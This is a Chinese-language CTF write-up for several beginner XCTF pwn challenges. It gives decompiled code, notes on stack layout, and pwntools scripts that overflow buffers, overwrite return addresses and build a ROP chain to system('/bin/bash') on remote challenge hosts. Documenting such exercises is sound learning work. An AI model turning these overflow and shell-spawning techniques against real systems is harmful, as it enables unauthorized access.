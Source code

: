 ##  get shell

本题是签到题
只需要连接远程端口，然后直接输入指令就可以了。

- way 1

  ```bash
  nc -nv ip port 
  cat flag
  ```

- 方法2 , 使用 pwntools

  ```python
  #coding = utf-8
  from pwn import *
  
  context.log_level = 'debug'
  io = remote('111.198.29.45', 54766)
  io.sendline('ls')
  io.sendline('cat flag')
  io.interactive()
  ```

## when_did_you_born

首先使用 checksec 查看程序，发现程序开启了栈运行保护和canary。
然后直接使用 ghidra 反汇编二进制文件。通过字符串定位搜索找到程序入口 main 函数，直接读反编译源码。
找到关键代码如下：

```c
  do {
    iVar1 = getchar();
  } while (iVar1 != 10);
  if (input_name[0] == 0x786) {
    puts("You Cannot Born In 1926!");
  }
  else {
    puts("What\'s Your Name?");
    gets(local_28);
    printf("You Are Born In %d\n",(ulong)input_name[0]);
    if (input_name[0] == 0x786) {
      puts("You Shall Have Flag.");
      system("cat flag");
    }
    else {
      puts("You Are Naive.");
      puts("You Speed One Second Here.");
    }
  }
```

查看程序执行流程可以发现，程序首先检查输入年龄是否为 1926，如果是就结束。
否则继续输入名称，gets 函数读入名称可能会造成栈溢出。
随便输入一个超长字符串，果然栈溢出了，但是由于开启了 canary ，因此报错如下：
![when_did_you_born_1](img/when_did_you_born_1.PNG)

然后想使用字符串填充的方式获得需要输入的payload，因为对缓冲区溢出的方向并不知道。

```bash
1234567890112233445566778899001112223334445556667778889990001111222233334444555566667777888899990000
```

后面发现自己这一步绕了很大的圈子。其实 name 和 age 是两个局部变量，只需要查看在栈上的相对地址即可确定。
使用 ghidra 查看两个局部函数的相对地址。
![when_did_you_born_2_查看相对地址](img/when_did_you_born_2_查看相对地址.PNG)
二者对应在栈中的布局如下：
![when_did_you_born_2_小端序栈溢出](img/when_did_you_born_2_小端序栈溢出.PNG)

需要记住的是，**小端序中，栈溢出的方向是从低地址向高地址**。
接下来就是一些 pwntools 的漏洞利用技巧

```python
from pwn import *
r=remote("111.198.29.45",33469)
payload='a'*(0x20-0x18)+p64(1926)
r.recvuntil("What's Your Birth?\n")
r.sendline("0")
r.recvuntil("What's Your Name?\n")
r.sendline(payload)
print r.recv()
print r.recv()
#r.interactive()
```

## hello_pwn

这题很简单，直接下载附件使用 ghidra ，定位到main函数如下：

![hello_pwn_main](img/hello_pwn_main.PNG)

如图可以发现 main 函数读取一个字符串到内存中，然后检查字符串的结尾段是不是 aaun。因此随便构造一个 payload 如下即可。

```bash
a*(DAT_0060106c - DAT_00601068-) + aaun 
```

例如 aaaaaaun ，就可以成功执行 cat flag 的指令。
![hello_pwn_get_flag](img/hello_pwn_get_flag.PNG)

## level0

直接查看 main 函数，非常粗暴，直接就是调用一个漏洞函数vulnerable_function,
函数vulnerable_function 也很粗暴，直接向一个  0x80 大小的字符串数组中写入一个 0x200 的字符串。那可不就得栈溢出吗 !
因为局部变量非常简单，就一个字符串，直接构造 payload 。 
![level0_1](img/level0_1.PNG)

函数调用栈压栈顺序为：参数、返回值、寄存器、局部变量。
观察上图中可知，局部变量只有字符串数组一个，压栈的寄存器只有ebp。因此构造的payload如下。

```python
from pwn import * 
r = remote("111.198.29.45",48316)#远程连接
#'a'*0x8是填充ebp，p64(0x00400596)是填充ret
payload = 'A' * 0x80 + 'a' * 0x8 + p64(0x00400596)
r.recvuntil("Hello, World\n")#直到接收到Hello,World才执行后面的操作
r.sendline(payload)#发送一行数据
r.interactive()#交互shell
```

函数执行 ret 指令的时候，相当于执行 `pop ip`
函数执行 LEAVE  指令时，恢复了过程被调用时 ESP 和 EBP 的值，结束了被调用过程的栈帧。
此处还有个问题，此处的 `0x00400596` 的地址，直接在 ghidra 中打开就是这个地址，因此有两种可能：
1. ghidra 模仿了程序在加载到内存中的过程，加载的起始地址，就是内部相对地址。
2. 程序在链接的过程中就把相对地址直接硬编码到程序中了（感觉这种可能性不大）

## level2

开头就有个坑，因为前面几个题目都是 x64 ，因此本题先入为主的就认为也是 x64 的程序。但是后面才发现程序是 32 位的，这直接关系到 payload 的构造，因此还是应该更加慎重一些。
![level2_5](img/level2_5.PNG)

本题中题目给的提示十分直接明了，构造rop链，执行system('/bin/bash')，拿到shell，即可获得执行 cat flag 的权限。

首先找到 main 函数进行分析，可以发现 main 函数直接简单粗暴的调用了漏洞函数，进一步查看漏洞函数，发现程序向一个大小为 0x88  的字符串数组，输入一个 0x100 的字符串。这铁定得溢出啊，接下来就是构造 rop 调用 system 函数了。

![level2_3](img/level2_3.PNG)

**函数地址：**
直接查看到 system 函数存在本程序的 plt 表中，那就简单太多了，直接获取到 system@plt 函数对应的解析地址，因为 system@plt是一个内部函数，因此使用相对地址即可。
此处注意区分外部导入函数 system ，和内部函数 system@plt。

**内部函数 system@plt**
![level2_1](img/level2_1.PNG)

**外部导入函数**
![level2_2](img/level2_2.PNG)

**参数：**
查找字符串发现'/bin/bash'，存在于程序数据段，直接拿来用。
![level2_4](img/level2_4.PNG)

因此构造出来的 payload 如下

```bash
0x88+ 0x4*1+ p32(system_addr) + p32(0) + p32(字符串_addr)
```

这里还有一个需要注意的问题，这个函数的调用只传了一个参数，注意多个参数传递时候的顺序问题。
![payload参数构造](img/payload参数构造.png)

## 问题

- 函数调用栈中，函数调用栈压栈顺序为：参数、返回值、寄存器、局部变量。那么返回值和寄存器是什么时候压栈的，是在 caller 中，还是在 callee 中？
  返回值是在执行 call function 的时候，将返回值入栈的。寄存器的保存和恢复是在 callee 中完成的。
- **内部函数如何相互调用？是怎么找到对应的相对地址的？** 

## 参考

- [攻防世界XCTF-Pwn入门11题解题报告](https://zhuanlan.zhihu.com/p/113052039)

## 体会

之前一直不知道找函数漏洞的目的是什么，现在理解的利用结果就是 get shell ，菜鸡入门，仍需努力。

- 成功执行 system('/bin/bash')
- 成功执行 cat flag 相关函数。